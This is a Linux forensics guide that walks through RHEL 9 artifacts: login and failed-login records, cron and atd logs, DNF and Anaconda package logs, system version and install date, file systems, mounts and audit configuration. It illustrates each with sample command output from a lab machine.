nate@cor pts/1 172.23.48.1 Wed Jul 5 13:54 still logged in
tlasso tty3 tty3 Wed Jul 5 13:52 still logged in
tlasso seat0 login screen Wed Jul 5 13:52 still logged in
corp\cbe tty2 tty2 Wed Jul 5 13:51 still logged in
corp\cbe seat0 login screen Wed Jul 5 13:51 - 13:52 (00:01)
tlasso tty2 tty2 Wed Jul 5 13:29 - 13:50 (00:21)
tlasso seat0 login screen Wed Jul 5 13:29 - 13:51 (00:22)
reboot system boot 5.14.0-284.18.1. Wed Jul 5 13:27 still running
reboot system boot 5.14.0-284.11.1. Wed Jul 5 13:20 - 13:22 (00:01)
tlasso tty2 tty2 Mon Jul 3 19:09 - down (1+18:11)
tlasso seat0 login screen Mon Jul 3 19:09 - down (1+18:11)
reboot system boot 5.14.0-284.11.1. Sun Jul 2 23:44 - 13:20 (2+13:36)
nate@cor pts/1 172.26.0.1 Sun Jul 2 14:36 - crash (09:07)
tlasso tty2 tty2 Sun Jul 2 12:04 - crash (11:39)
tlasso seat0 login screen Sun Jul 2 12:04 - crash (11:39)
Failed Logon Attempts
The btmp file is a system log file in Linux that keeps a record of failed login attempts. It is located in the /var/log/ directory.
Each time a user or process tries to log in to the system and fails, an entry is added to the btmp file. This file can be quite useful from a security perspective because a large number of failed login attempts could be an indication of a brute force attack or some other malicious activity.
The btmp file also uses a binary format to store login records. Each record is stored as a struct utmp. The utmpdump and last commands can be used to view the data.
sudo last -f btmp
[tlasso@rhel-richmondfc log]$ sudo last -f btmp
CORPcbe seat0 login screen Sun Jul 2 09:04 gone - no logout
cbeard@t seat0 login screen Sun Jul 2 09:04 - 09:04 (00:00)
corpcbe seat0 login screen Sun Jul 2 09:03 - 09:04 (00:00)
cbeard seat0 login screen Sun Jul 2 09:03 - 09:03 (00:00)
cbeard seat0 login screen Sun Jul 2 09:02 - 09:03 (00:00)
cbeard seat0 login screen Sun Jul 2 09:02 - 09:02 (00:00)
cbeard seat0 login screen Sun Jul 2 09:02 - 09:02 (00:00)
btmp begins Sun Jul 2 09:02:27 2023
[tlasso@rhel-richmondfc log]$ sudo last -f btmp-20230702
tuxtriag seat0 login screen Wed Jun 14 03:11 gone - no logout
tuxtriag seat0 login screen Wed Jun 14 03:10 - 03:11 (00:00)
tlasso seat0 login screen Wed Jun 14 02:34 - 03:10 (00:35)
btmp-20230702 begins Wed Jun 14 02:34:55 2023
[tlasso@rhel-richmondfc log]$ sudo utmpdump btmp
Utmp dump of btmp
[7] [04306] [ ] [cbeard ] [seat0 ] [login screen ] [0.0.0.0 ] [2023-07-02T13:02:27,697928+00:00]
[7] [04331] [ ] [cbeard ] [seat0 ] [login screen ] [0.0.0.0 ] [2023-07-02T13:02:36,386695+00:00]
[7] [04337] [ ] [cbeard ] [seat0 ] [login screen ] [0.0.0.0 ] [2023-07-02T13:02:44,039468+00:00]
[7] [04350] [ ] [cbeard ] [seat0 ] [login screen ] [0.0.0.0 ] [2023-07-02T13:03:09,359408+00:00]
[7] [04370] [ ] [corp\cbeard] [seat0 ] [login screen ] [0.0.0.0 ] [2023-07-02T13:03:59,445274+00:00]
[7] [04380] [ ] [cbeard@tuxtriage.net] [seat0 ] [login screen ] [0.0.0.0 ] [2023-07-02T13:04:30,283273+00:00]
[7] [04389] [ ] [CORP\cbeard] [seat0 ] [login screen ] [0.0.0.0 ] [2023-07-02T13:04:57,104620+00:00]
[6] [36824] [ ] [jayaram ] [ssh:notty ] [172.23.48.1 ] [172.23.48.1 ] [2023-07-05T17:46:34,000000+00:00]
[6] [36824] [ ] [jayaram ] [ssh:notty ] [172.23.48.1 ] [172.23.48.1 ] [2023-07-05T17:46:50,000000+00:00]
[6] [37042] [ ] [corpnate] [ssh:notty ] [172.23.48.1 ] [172.23.48.1 ] [2023-07-05T17:50:17,000000+00:00]
[6] [37042] [ ] [corpnate] [ssh:notty ] [172.23.48.1 ] [172.23.48.1 ] [2023-07-05T17:50:23,000000+00:00]
[6] [37044] [ ] [corp ] [ssh:notty ] [172.23.48.1 ] [172.23.48.1 ] [2023-07-05T17:50:32,000000+00:00]
[6] [37044] [ ] [corp ] [ssh:notty ] [172.23.48.1 ] [172.23.48.1 ] [2023-07-05T17:50:38,000000+00:00]
https://man7.org/linux/man-pages/man5/utmp.5.html 5: https://man7.org/linux/man-pages/man1/utmpdump.1.html 1: https://www.linuxnix.com/read-view-utmp-wtmp-btmp-file-linuxunix/ 2: https://www.cs.clemson.edu/course/cpsc424/material/Logging/utmp.pdf 6: https://github.com/util-linux/util-linux/blob/master/login-utils/utmpdump.c 3: https://elixir.bootlin.com/glibc/glibc-2.34/source/bits/utmp.h#L58
Scheduled task execution
The cron log file, located at /var/log/cron, is where the cron daemon logs its activities. It provides valuable information about all the cron jobs executed on the system.
Each entry in the cron log file is a line of text that includes several pieces of information. A typical entry may look something like this:
Jul 4 01:01:01 rhel-richmondfc run-parts[7909]: (/etc/cron.hourly) starting 0anacron
Jul 4 01:01:01 rhel-richmondfc anacron[7922]: Anacron started on 2023-07-04
Jul 4 01:01:01 rhel-richmondfc anacron[7922]: Normal exit (0 jobs run)
Jul 4 01:01:01 rhel-richmondfc run-parts[7909]: (/etc/cron.hourly) finished 0anacron
Jul 4 01:01:01 rhel-richmondfc CROND[7908]: (root) CMDEND (run-parts /etc/cron.hourly)
Jul 4 01:41:10 rhel-richmondfc atd[8497]: Starting job 2 (a0000201ad6515) for user 'tlasso' (1000)
This log line can be broken down into the following parts:
timestamp: The timestamp when the cron job was executed.hostname: The hostname of the system where the cron job was run.Cron Deamon[Process Id]: The name of the cron daemon (CROND, anacron, atd, run-parts etc) and the process ID (PID) of the cron job inside the square brackets.
The text parts after the : depends on the daemon.
The cron daemon has the following details.
-
(root): This signifies that the user who owns the cron job is root. -
CMDEND (run-parts /etc/cron.hourly): The CMDEND part indicates that the execution of a specific command has ended. In this case, the command is run-parts/etc/cron.hourly, which is a standard way of running all scripts in the/etc/cron.hourlydirectory on an hourly basis.
The atd daemon has the following details.
-
Starting job 2 (a0000201ad6515): This indicates that a job was started. The number 2 is a local identification number for the job, anda0000201ad6515is the unique identifier for the job. -
for user 'tlasso' (1000): This indicates the username and user ID of the user who scheduled the job. In this case, the user istlassoand the user ID is1000.
The run-parts utility has the following details.
-
(/etc/cron.hourly): This is the directory whose scripts were run by run-parts. In this case, it's the/etc/cron.hourlydirectory, indicating these are tasks scheduled to run on an hourly basis. -
starting 0anacron: This indicates the specific script that's being started. In this case, it's the 0anacron script. The "0" prefix is often used in script names to control the order in which they're run, since run-parts runs scripts in lexicographic order.
Installed applications
DNF Logs 1
The DNF log files on a RHEL provide a historical record of package management activities performed with the DNF package manager. They are located in the /var/log/ directory. Here are some of the key log files:
-
dnf.log: This is the main log file, where DNF logs all transactions (package installations, updates, and removals). It includes details about the command executed, packages affected, and the date and time of the transaction. -
dnf.librepo.log: This log file includes detailed messages from the librepo library, which DNF uses to download RPM packages from repositories. It contains information about the download process for each package, including the URLs used and the download speeds. -
dnf.rpm.log: This is the most interesting for forensic examination. This log file includes messages from RPM (the underlying package manager that DNF uses to install, update and remove packages). The entries in this file correspond to the actions that RPM performs on individual packages during a DNF transaction. -
dnf.plugin.log: This file contains logs from DNF plugins. DNF has a plugin system that extends its functionality, and plugins can write their own log messages.
Anaconda logs 2
Anaconda is the installer program used by RHEL as well as several Linux distributions in the Red Hat ecosystem. The logs generated by the Anaconda installer can provide insight into the initial setup and configuration of a system, including
- Details about partitiion layouts
- Packages that were installed
- Network initialization
- Kernel messages
- calls to external programs
The following log files track the above information.
/var/log/anaconda/anaconda.log: General installation information/var/log/anaconda/program.log: External program calls and output/var/log/anaconda/storage.log: Storeage device scan, partitioning etc./var/log/anaconda/packaging.log: Packages installed at system installation.
The package.log file can provide a baseline of what software was initially installed on the system. This can be used to compare with the current state of the system to identify any additional packages that were installed or removed.
Sample log output from packaging.log
02:27:32,420 INF packaging: Installed: gspell-1.9.1-3.el9.x86_64 1628556777 2c775e0b07438c046ab708eda8bf3da4d11d6b8d366b2068f7caf6a3a3c381a8
02:27:32,444 INF packaging: Installed: evince-libs-40.5-2.el9.x86_64 1653385936 2c88010f0d4aff5be78b1c785bd9a3a0f2eab41f58f5140ee551660c8b8a4ea8
02:27:32,461 INF packaging: Installed: libgnomekbd-3.26.1-7.el9.x86_64 1628568220 9eaac4d5ba9a475fca34ea14903854bd3a8c2730d84098123d694b99a6903dc4
02:27:32,496 INF packaging: Installed: libpeas-gtk-1.30.0-4.el9.x86_64 1628573987 7e943d7a11e66487fbcba66aebc3332e0873d2aa1ddf08c5d1795377987a7b76
02:27:32,502 INF packaging: Installed: nautilus-extensions-40.2-11.el9.x86_64 1677145377 508247a767c7146dd5c01bd3278ddd2a6ff428af00419fd7d0e9ca5e04f164cf
02:27:32,508 INF packaging: Installed: clutter-gst3-3.0.27-7.el9.x86_64 1628541416 9ad2024221179e726f0c7ba0440c79b3371137edf98c1e28e1edf081d631a0e6
02:27:32,516 INF packaging: Installed: cheese-libs-2:3.38.0-6.el9.x86_64 1628540134 c5232a3cc4e0629cc35ad80f187109081b5d9a29b18c7188702237c9be010bb7
System Configuration
Basic System Information
Linux Version information
cat /proc/version
[tlasso@rhel-richmondfc proc]$ cat /proc/version
Linux version 5.14.0-284.18.1.el9_2.x86_64 (mockbuild@x86-64-02.build.eng.rdu2.redhat.com) (gcc (GCC) 11.3.1 20221121 (Red Hat 11.3.1-4), GNU ld version 2.35.2-37.el9) #1 SMP PREEMPT_DYNAMIC Wed May 31 10:39:18 EDT 2023
Os Release information from /etc/os-release file
cat /etc/os-release
tlasso@rhel-richmondfc Documents]$ cat /etc/os-release
NAME="Red Hat Enterprise Linux"
VERSION="9.2 (Plow)"
ID="rhel"
ID_LIKE="fedora"
VERSION_ID="9.2"
PLATFORM_ID="platform:el9"
PRETTY_NAME="Red Hat Enterprise Linux 9.2 (Plow)"
ANSI_COLOR="0;31"
LOGO="fedora-logo-icon"
CPE_NAME="cpe:/o:redhat:enterprise_linux:9::baseos"
HOME_URL="https://www.redhat.com/"
DOCUMENTATION_URL="https://access.redhat.com/documentation/en-us/red_hat_enterprise_linux/9"
BUG_REPORT_URL="https://bugzilla.redhat.com/"
REDHAT_BUGZILLA_PRODUCT="Red Hat Enterprise Linux 9"
REDHAT_BUGZILLA_PRODUCT_VERSION=9.2
REDHAT_SUPPORT_PRODUCT="Red Hat Enterprise Linux"
REDHAT_SUPPORT_PRODUCT_VERSION="9.2"
Installation date
$ rpm -qi basesystem
[tlasso@rhel-richmondfc Documents]$ rpm -qi basesystem
Name : basesystem
Version : 11
Release : 13.el9
Architecture: noarch
Install Date: Wed 14 Jun 2023 02:26:33 AM EDT
Group : Unspecified
Size : 0
License : Public Domain
Signature : RSA/SHA256, Sat 20 Nov 2021 05:50:43 AM EST, Key ID 199e2f91fd431d51
Source RPM : basesystem-11-13.el9.src.rpm
Build Date : Mon 09 Aug 2021 03:47:02 PM EDT
Build Host : x86-vm-55.build.eng.bos.redhat.com
Packager : Red Hat, Inc. <http://bugzilla.redhat.com/bugzilla>
Vendor : Red Hat, Inc.
Summary : The skeleton package which defines a simple Red Hat Enterprise Linux system
File System
Using lsblk
[tlasso@rhel-richmondfc scripts]$ lsblk -f
NAME FSTYPE FSVER LABEL UUID FSAVAIL FSUSE% MOUNTPOINTS
sda
├─sda1 vfat FAT32 D7C9-A9C8 591.8M 1% /boot/efi
├─sda2 xfs f96af77c-de86-4f65-b914-33373c4313cf 730.5M 28% /boot
└─sda3 LVM2_member LVM2 001 wZx9a7-JGa6-Za1A-3xtF-UXNZ-kPYx-w2gGVZ
├─rhel-root xfs 51074d0b-8172-4bd0-aca8-1558aa348c34 29.3G 15% /
└─rhel-swap swap 1 7f8666f3-f284-4ee6-9bb2-91b3d8686a02 [SWAP]
sr0
We can determine the file system in use as xfs for rhel-root (/) mount.
From fstab
fstab file contains the file system information.
cat /etc/fstab
[tlasso@rhel-richmondfc scripts]$ cat /etc/fstab
#
# /etc/fstab
# Created by anaconda on Wed Jun 14 06:26:07 2023
#
# Accessible filesystems, by reference, are maintained under '/dev/disk/'.
# See man pages fstab(5), findfs(8), mount(8) and/or blkid(8) for more info.
#
# After editing this file, run 'systemctl daemon-reload' to update systemd
# units generated from this file.
#
/dev/mapper/rhel-root / xfs defaults 0 0
UUID=f96af77c-de86-4f65-b914-33373c4313cf /boot xfs defaults 0 0
UUID=D7C9-A9C8 /boot/efi vfat umask=0077,shortname=winnt 0 2
/dev/mapper/rhel-swap none swap defaults 0 0
Mounts
cat /proc/mounts
[tlasso@rhel-richmondfc proc]$ cat /proc/mounts
proc /proc proc rw,nosuid,nodev,noexec,relatime 0 0
sysfs /sys sysfs rw,seclabel,nosuid,nodev,noexec,relatime 0 0
devtmpfs /dev devtmpfs rw,seclabel,nosuid,size=4096k,nr_inodes=1958404,mode=755,inode64 0 0
securityfs /sys/kernel/security securityfs rw,nosuid,nodev,noexec,relatime 0 0
tmpfs /dev/shm tmpfs rw,seclabel,nosuid,nodev,size=7864436k,nr_inodes=1966109,inode64 0 0
devpts /dev/pts devpts rw,seclabel,nosuid,noexec,relatime,gid=5,mode=620,ptmxmode=000 0 0
tmpfs /run tmpfs rw,seclabel,nosuid,nodev,size=3145776k,nr_inodes=819200,mode=755,inode64 0 0
cgroup2 /sys/fs/cgroup cgroup2 rw,seclabel,nosuid,nodev,noexec,relatime,nsdelegate,memory_recursiveprot 0 0
pstore /sys/fs/pstore pstore rw,seclabel,nosuid,nodev,noexec,relatime 0 0
efivarfs /sys/firmware/efi/efivars efivarfs rw,nosuid,nodev,noexec,relatime 0 0
bpf /sys/fs/bpf bpf rw,nosuid,nodev,noexec,relatime,mode=700 0 0
/dev/mapper/rhel-root / xfs rw,seclabel,relatime,attr2,inode64,logbufs=8,logbsize=32k,noquota 0 0
selinuxfs /sys/fs/selinux selinuxfs rw,nosuid,noexec,relatime 0 0
System Audit configuration and Audit rules 1
auditd.conf
The /etc/audit/auditd.conf file is the main configuration file for the Linux Audit daemon (auditd). It is responsible for controlling the behavior of the audit system, allowing administrators to specify various parameters, such as how to log events, where to store log files, how much disk space to use, and when to take certain actions in response to specific system events.
audit.rules
The default audit configuration file is located at /etc/audit/auditd.conf.
https://www.redhat.com/sysadmin/configure-linux-auditing-auditd
About
Author: Jayaram Sreevalsan
License: MIT